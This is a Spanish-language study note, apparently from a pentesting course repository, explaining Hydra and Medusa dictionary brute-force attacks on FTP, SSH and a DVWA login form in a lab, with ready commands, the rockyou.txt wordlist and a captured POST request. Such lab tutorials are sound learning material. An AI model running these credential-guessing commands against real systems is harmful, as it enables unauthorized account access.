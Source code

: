 # Hidra.

## FTP

***HIDRA*** es una herramienta que nos permite poder ejecutar ataques de fuerza bruta por medio de ***diccionarios***.

~~~
hydra 10.0.2.5 ftp -l msfadmin -P rockyou.txt -s 21
~~~

Explicación:

	 hydra -> Para utilizar la herramienta.
	 192.168.138.130 -> la IP de la victima.
	 ftp -> Servicio a accesar.
	 -l -> Colocar el usuario (si se planea utilizar un diccionario se utiliza -L).
	 msfadmin -> nombre del usuario (si se utiliza -L, colocamos el nombre del diccionario).
	 -P -> (En mayuscula) para indicar el password (en este caso al ser -P y no -p, se utilizará un diccionario).
	 rockyou.txt -> Nombre y extensión de archivo de diccionario.
	 -s 21 -> El puerto por el cual queremos acceder el ataque.

Si queremos ver el contenido y directorio del ***diccionario*** podemos ejecutar el:

~~~
locate rockyou.txt
~~~

Ubicandose en: `/usr/share/wordlists/rockyou.txt.gz`.

Si hacemos un:

~~~
cd /usr/share/wordlists
~~~

y un:

~~~
ls
~~~

Podremos ver los diferentes diccionarios.

Y con:

~~~
cat rockyou.txt
~~~

Podemos visualizar el contenido del diccionario.

---
## SSH

~~~
hydra 10.0.2.5 ssh -l msfadmin -P rockyou.txt -s 22
~~~

Cambiamos:

	- el "ftp" por "ssh".
	- el "-s 21" (ftp) por "-s 22" (SSH).

## Buscar palabras en diccionario

~~~
cat <diccionario.txt> | grep <palabra>
~~~

~~~
cat rockyou.txt | grep msfadmin
~~~

***Nota:*** Esto devolverá ***TODAS*** las palabras que contengan la palabra ingresada.

---
## Formularios web

Para poder utilizar ***formularios web*** con ***HYDRA*** es un poco diferente.

***Nota:*** Necesitamos la ayuda de ***Burp Suite*** (preinstalado en kali-linux).

	Debemos realizar una peticion y capturar información del paquete para utilizarlos.
	- El metodo (POST o GET)
	- la URL de la petición.
	- Los parametros a enviar

Como el ejemplo siguiente:

~~~
POST /dvwa/login.php HTTP/1.1
Host: 10.0.2.5
Content-Length: 45
Cache-Control: max-age=0
Accept-Language: es-419,es;q=0.9
Origin: http://10.0.2.5
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.0.2.5/dvwa/login.php
Accept-Encoding: gzip, deflate, br
Cookie: security=high; PHPSESSID=b27f8343e50b29598dbd42f58eaabad0
Connection: keep-alive

username=canario&password=canario&Login=Login
~~~

~~~
hydra -l admin -P rockyou.txt 10.0.2.5 http-post-form '/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed'
~~~

~~~
medusa -h 192.168.0.105 -u msfadmin -P /usr/share/wordlists/rockyou.txt -M ssh -n 22
~~~